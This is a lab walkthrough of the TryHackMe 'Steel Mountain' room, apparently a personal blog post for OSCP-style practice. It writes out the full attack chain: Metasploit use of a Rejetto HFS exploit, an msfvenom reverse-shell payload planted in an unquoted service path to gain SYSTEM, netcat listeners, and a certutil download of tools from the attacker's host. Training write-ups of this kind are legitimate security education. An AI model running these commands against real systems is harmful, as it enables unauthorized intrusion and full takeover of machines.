 ```yaml
---
slug: steel-mountain-walkthrough
title: TryHackMe - Steel Mountain - Walkthrough
authors: bw
tags: [learning, steelmountain, tryhackme, walkthrough]
---
```


This is a [TryHackMe][tryhackme] walkthrough for the room: [Steel Mountain][sm]. Deploy the machine and let’s get started!

# Enumeration
Start with our friend, nmap: `nmap -T4 -A -p- 10.10.89.192`

![sm1](/img/thm/steelmountain/sm1.png)

We get some good info here. We can see there is a website on port 80, also some other interesting ports. Let’s take a look at port 80 first!

![sm2](/img/thm/steelmountain/sm2.webp)

Hmm…not much here. Viewing the page source gives us our first answer though!

![sm3](/img/thm/steelmountain/sm3.png)

Let’s take a look at the other webserver (Second answer). For the third answer, take a look at the **Server Information**.

For the next answer, give Google a shot. [Exploit-DB][exdb] is always a good resource!

# Exploit
According to the next question, we need to use Metasploit: `msfconsole`

```bash
search rejetto 2.3
use 0
info
```
![sm4](/img/thm/steelmountain/sm4.png)

This definitely looks like what we are looking for! Now we need to set the options:

```bash
options
set rhosts 10.10.89.192
set rhosts rport 8080
set lhost tun0
options
```

I think that’s all we need: `run`

We have a shell! Let’s look for the user flag.

```bash
getuid
shell
cd C:\Users\bill
dir Desktop
type Desktop\user.txt
```
We found our `user.txt` flag!

![sm5](/img/thm/steelmountain/sm5.png)

Next, let’s download the provided PowerShell script: PowerUp

Just like the room tells us, let’s upload the script: `upload <path>/powerup.ps1`

Continue to follow the room instructions:

```powershell
load powershell
powershell_shell
. .\powerup.ps1
Invoke-AllChecks
```

Pay attention to all the checks being populated. There are some that have:
- `CanRestart: True`
- `Check: Unquoted Service Paths`

The ServiceName that belongs to those is our next answer!

Let’s create our payload using `msfvenom`:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<THM VPN IP> LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
```

Exit out of the PowerShell session CTRL + C and then upload the payload: `Advanced.exe`

Now let’s stop the service and copy the file into the correct directory:

`sc stop <name of service>`

`copy Advanced.exe "\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"`

Overwrite the current file. Now we need to setup a listener on our local machine so the payload has something to connect the reverse shell to!

`nc -nvlp 4443`

Start the service: `sc start <name of service>`

Go look at your `netcat` terminal and you should have a shell! Find the root flag.

![sm6](/img/thm/steelmountain/sm6.png)

# Manual Exploitation
Now, we aren’t done with the room, but if this were real-world we have full system access and have complete control of the machine. I like how this room includes a manual exploitation section (good to learn for the OSCP) which is super useful!

We are provided with an exploit. So let’s keep going!

Create/copy the following files on your local machine:
- `exploit.py`
- `nc.exe`
- `winPEAS.exe`

Here are the links to download:
- [Exploit][rejetto]
- [nc listener][nc] (rename to `nc.exe` if it isn’t already)
- [winPEAS.exe][winpeas] (rename to `winPEAS.exe` if it isn’t already)
**NOTE:** Downloading winPEAS may get flagged by the browser. Make sure to accept any warning about a malicious file.

Now open 3 terminal windows:
1. Python Web Server
2. Netcat listener
3. run exploit

Edit the exploit to add our machine IP and port

![sm7](/img/thm/steelmountain/sm7.png)

In the Python webserver run: `python3 -m http.server 80`

In the netcat listener terminal run: `nc -nvlp 1234`

In the exploit terminal run: `python exploit.py 10.10.89.192 8080` (run this twice)

You should now have a shell!

Navigate to `C:\Users\Bill\Desktop` and pull `winPEAS.exe` to the server

`certutil -urlcache -f http://<THM VPN IP>/winPEAS.exe winPEAS.exe`

Now that we have that on the server, we can run it by simply doing: `winPEAS.exe` which provides us with unquoted paths and the ServiceName.

Utilize Google to find out the last question: `powershell -c <command>`

Now the next steps to get system is the same as before:

1. Configure an `msfvenom` payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<THM VPN IP> LPORT=4443 -e x86/shikata_ga_nai -f exe -o Advanced.exe
```
2. Utilize `certutil` to get the payload onto the server
3. Stop the service
4. Start a new `netcat` listener
5. Start the service
6. You should now be `NT AUTHORITY\SYSTEM`

# Review
This was a really well done room. It was a “walkthrough” but didn’t give you everything. It is a good in-between for someone who is doing well in walkthroughs but gets stuck on CTF type rooms.

Steel Mountain provided a good overall review of enumeration, privilege escalation, and exploitation. My favorite part was that it covered metasploit exploitation and manual exploitation!

References
[TryHackMe][tryhackme] | [Steel Mountain Room][sm] | [Exploit-DB][exdb] | [Rejetto Exploit][rejetto] | [nc listener][nc] | [winPEAS Download][winpeas]

[tryhackme]: https://tryhackme.com
[sm]: https://tryhackme.com/why-subscribe?roomCode=steelmountain
[exdb]: https://www.exploit-db.com
[rejetto]: https://www.exploit-db.com/exploits/39161
[nc]: https://github.com/andrew-d-binaries/blob/master/binaries/windows/x86/ncat.exe
[winpeas]: https://github.com/peass-ng/PEASS-ng/tree/master
